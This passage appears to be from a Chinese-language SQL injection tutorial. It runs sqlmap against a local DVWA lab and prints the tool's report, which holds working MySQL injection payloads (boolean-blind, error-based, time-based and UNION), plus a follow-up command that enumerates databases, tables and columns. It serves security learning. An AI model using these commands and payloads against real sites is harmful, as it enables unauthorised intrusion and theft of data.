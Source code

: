 ```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low'
```

经过一大串输出和询问如何测试之后，得到下面的报告：

```plaintext
sqlmap identified the following injection point(s) with a total of 147 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 4667=4667#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=1' AND EXTRACTVALUE(2744,CONCAT(0x5c,0x7170786b71,(SELECT (ELT(2744=2744,1))),0x71627a7171))-- HCVJ&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 7426 FROM (SELECT(SLEEP(5)))bhNh)-- bKjP&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7170786b71,0x64687569466e4454474c614e644e7543524f49417450684b547a506d65756c54576e56466255644a,0x71627a7171)#&Submit=Submit
---
```

`sqlmap` 发现 `id` 脆弱而且列出了三种攻击方式和对应的 payload，这里我使用的是 `UNION query`法，前面所说的稳定的1比特观察窗口就是 `boolean-based blind`，一种盲注攻击法。因为1比特的观察窗口虽然稳定但真的太小了，所以一般靠这个盲注的时候都是拿脚本跑（如上所示，比如用`sqlmap`来跑）。

更让人感到惊喜的是甚至给出了`id`可能可以用于反射型XSS，可以说非常牛逼了。

```plaintext
heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
```

通过添加参数还可以枚举出更多信息。

```bash
sqlmap -u 'http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#' --cookie 'PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=low' --dbs --tables --columns
```
